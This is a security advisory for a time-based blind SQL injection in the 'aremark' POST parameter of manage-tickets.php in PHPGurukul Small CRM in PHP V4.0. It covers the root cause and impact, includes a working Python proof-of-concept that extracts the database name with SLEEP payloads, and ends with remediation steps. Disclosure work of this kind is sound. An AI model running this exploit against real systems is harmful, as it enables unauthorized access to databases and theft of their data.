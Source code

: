 # PHPGurukul Small CRM in PHP V4.0 /crm/admin/manage-tickets.php SQL Injectin

## NAME OF AFFECTED PRODUCT(S)

- Small CRM in PHP

## Vendor Homepage

- [Small CRM in PHP](https://phpgurukul.com/small-crm-php/)

## AFFECTED AND/OR FIXED VERSION(S)

### submitter

- YoSheep

### VERSION(S)

- V4.0

### Software Link

- https://phpgurukul.com/?sdm_process_download=1&download_id=10412

## PROBLEM TYPE

### Vulnerability Type

- SQL injection

### Root Cause

* The /crm/admin/manage-tickets.php component remark parameter is directly inserted into SQL statement without proper sanitization or use of prepared statement. Thus, the unsafe practice allows attackers to inject crafted SQL payloads, alerting the intended query logic and executing arbitrary SQL commands in the server.

### Impact

* Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION

* A time-based blind SQL injection vulnerability exists in *Small CRM in PHP V4.0* within the /crm/admin/manage-tickets.php component, due to improper handling of the aremark POST parameter. The application directly concatenates unsanitized user input into SQL queries without using prepared statements, allowing remote, unauthenticated attackers to manipulate database queries. Successful exploitation can lead to unauthorized access to sensitive data, modification of database contents, and potential full compromise of the application environment, posing a severe threat to confidentiality, integrity, and availability.

## Vulnerability Details and Proof of Concept (PoC)

### Vulnerability type:

* Time-based blind SQL injection

### Vulnerability location:

* Parameter: remark (POST)

### Proof of Concept Payloads

```python
import requests
import time

# Target URL (vulnerable endpoint)
URL = "http://TARGET-IP/crm/admin/manage-tickets.php"

# Sleep time used in the injection
SLEEP_TIME = 5
# Maximum expected length of database name
DATABASE_LEN_MAX = 32

def send_payload(payload: str) -> bool:
    """
    Send payload and check if the response time indicates a successful injection.
    Returns True if payload triggered a delay (sleep), otherwise False.
    """
    files = {
        "aremark": (None, payload),
        "update": (None, "update"),
        "frm_id": (None, "7"),
    }
    start = time.time()
    try:
        requests.post(URL, files=files, timeout=SLEEP_TIME + 2)
    except requests.exceptions.Timeout:
        # Timeout indicates SLEEP() executed
        return True
    end = time.time()
    return (end - start) > SLEEP_TIME

def get_dblen() -> int:
    """
    Determine the length of the current database name.
    """
    print("[*] Retrieving database name length...")
    payload_len = "123' AND IF(LENGTH(DATABASE())={}, SLEEP({}), 0) AND '1'='1"
    for i in range(1, DATABASE_LEN_MAX + 1):
        if send_payload(payload_len.format(i, SLEEP_TIME)):
            print(f"[+] Database name length: {i}")
            return i
    return 0

def get_char_at(pos: int) -> str:
    """
    Extract the character at position 'pos' in the database name
    using binary search over ASCII values.
    """
    low, high = 32, 126  # Printable ASCII range
    while low <= high:
        mid = (low + high) // 2
        payload = (
            f"123' AND IF(ASCII(SUBSTRING(DATABASE(),{pos},1))>{mid},0,SLEEP({SLEEP_TIME})) AND '1'='1"
        )
        if send_payload(payload):
            # True branch => character <= mid
            high = mid - 1
        else:
            # False branch => character > mid
            low = mid + 1
    return chr(low)

def get_dbname():
    """
    Extract the full database name character by character.
    """
    db_len = get_dblen()
    if not db_len:
        print("[-] Failed to determine database length")
        return ""

    print("[*] Extracting database name...")
    dbname = ""
    for i in range(1, db_len + 1):
        ch = get_char_at(i)
        dbname += ch
        print(f"[+] Found character {i}: {ch}")
    print(f"[+] Database name extracted: {dbname}")
    return dbname

if __name__ == "__main__":
    get_dbname()
```

Screenshot of excution result:

![image-20250828025704152](https://mac-pic-1314279731.cos.ap-nanjing.myqcloud.com/image-20250828025704152.png)

## Suggested Remediation

1. **Use Prepared Statements and Parameterized Queries**

   Implement parameterized queries (mysqli or PDO) to ensure user inputs are treated strictly as data, preventing SQL injection.

2. **Implement Input Validation and Sanitization**

   Validate incoming parameters against expected formats (e.g., numeric IDs). Reject or sanitize unexpected input before processing.

3. **Apply the Principle of Least Privilege**

   Restrict the privileges of the database account used by the application. Avoid using high-privilege accounts (e.g., root).

4. **Conduct Regular Security Audits**

   Periodically review source code and perform penetration testing to identify and remediate potential vulnerabilities.

5. **Upgrade Deprecated Libraries**

   Replace legacy mysql_* functions with mysqli or PDO, which provide better security support and long-term maintainability.
